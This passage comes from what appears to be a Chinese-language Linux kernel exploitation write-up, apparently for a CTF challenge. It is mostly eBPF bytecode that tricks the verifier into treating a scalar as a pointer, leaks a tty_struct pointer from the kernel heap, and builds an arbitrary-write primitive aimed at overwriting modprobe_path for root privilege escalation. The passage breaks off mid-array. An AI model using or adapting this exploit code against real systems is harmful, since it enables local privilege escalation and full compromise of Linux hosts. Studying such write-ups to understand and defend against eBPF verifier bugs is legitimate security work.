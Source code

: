 ```
 
    /*  我们取到的map addr 相对内核堆上tty_struct的偏移较为固定(但还是需要爆破)  */
    // 0x136f10+0x18+0x1a4857c8             0xffff88801fb6e800 = 0x136f10+0xffff88801fa378f0
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, 0x21ef0+0x18),           //
 
    /*  此时以标量的形式构造出来了一个指向tty_struct的指针r2，但是不能用他直接load内存，因为这时的r2是个标量，我们要将其重新转换到指针的形式 */
    /*  在保证r2数值不变的情况下，通过REG XOR，以BPF_REG_0 为中转，将r1设置为r2的值并且设置r1的类型为指针类型 */
        BPF_ALU64_REG(BPF_XOR, BPF_REG_0, BPF_REG_2),
        BPF_ALU64_REG(BPF_XOR, BPF_REG_1, BPF_REG_0),  
      BPF_LDX_MEM(BPF_DW, BPF_REG_2, BPF_REG_1, 0),
   // 通过call_usermodehelper_setup的第一个参数找到未导出符号的modprobe_path（0xffffffff8284db40）
 
    BPF_STX_MEM(BPF_DW, BPF_REG_3,  BPF_REG_2, 0), // 储存r2中保存的tty_struct中全局变量的地址到r3（map_ptr）指向的地址的位置
    //end
    BPF_MOV64_IMM(BPF_REG_0, 0),               // 在非root的情况下必须加这一条，否则会直接挂掉(不知道为啥)
        BPF_EXIT_INSN(),
 
 
};

```

### Step 3 (Overwrite modprobe_path)

在本部分，我们需要通过 eBPF-asm 构建任意内存写的原语。

 

本题中 modprobe_path 没有导出，在这种情况下，我们可以通过先构造一个 fake_elf，然后在 `call_usermodehelper_setup` 上打断点。

 

在 call_usermodehelper_setup 函数调用的过程中，其第一个参数`$rdi` 就是没导出的全局变量 modprobe_path 的地址。这样就可以知道不开 kaslr 下 modprobe_path 相对 kernel base 的偏移了。进而计算出真正的 modprobe_path 的地址。

 

最终构造出的任意内存写的原语如下：

```
struct bpf_insn insns2[]={
       BPF_LD_MAP_FD(BPF_REG_1,expmapfd2), 
       BPF_MOV64_IMM(BPF_REG_0, 0),
       BPF_ALU64_IMM(BPF_MOV,BPF_REG_6,0),       
       BPF_STX_MEM(BPF_DW,BPF_REG_10,BPF_REG_6,-8),
       BPF_MOV64_REG(BPF_REG_7,BPF_REG_10),
       BPF_ALU64_IMM(BPF_ADD,BPF_REG_7,-8),   
       BPF_MOV64_REG(BPF_REG_2,BPF_REG_7), 
       BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_map_lookup_elem),     
       BPF_JMP_IMM(BPF_JNE,0,0,1),                 
       BPF_EXIT_INSN(),                
         BPF_MOV64_REG(BPF_REG_3, BPF_REG_0), 
       BPF_ALU64_IMM(BPF_XOR, BPF_REG_3, 0),
       BPF_ALU64_IMM(BPF_XOR, BPF_REG_0, 0),
       BPF_MOV64_IMM(BPF_REG_2,0),
       BPF_MOV32_IMM(BPF_REG_2,modprobe_path_high32),
       BPF_ALU64_IMM(BPF_LSH, BPF_REG_2, 32),              // 18: (67) r2 <<= 32
       BPF_ALU64_IMM(BPF_OR, BPF_REG_2, modprobe_path_low32),
       // 这一步结束后r2为modprobe_path，标量
       BPF_MOV64_IMM(BPF_REG_1, 0),
       BPF_ALU64_REG(BPF_ADD, BPF_REG_1, BPF_REG_2),
 
       BPF_ALU64_REG(BPF_XOR, BPF_REG_0, BPF_REG_1),
       BPF_ALU64_IMM(BPF_XOR, BPF_REG_0, 0),
       BPF_ALU64_REG(BPF_XOR, BPF_REG_3, BPF_REG_0),
       BPF_MOV64_IMM(BPF_REG_5, 0),
       BPF_ALU64_IMM(BPF_ADD,BPF_REG_5, overwrite),
```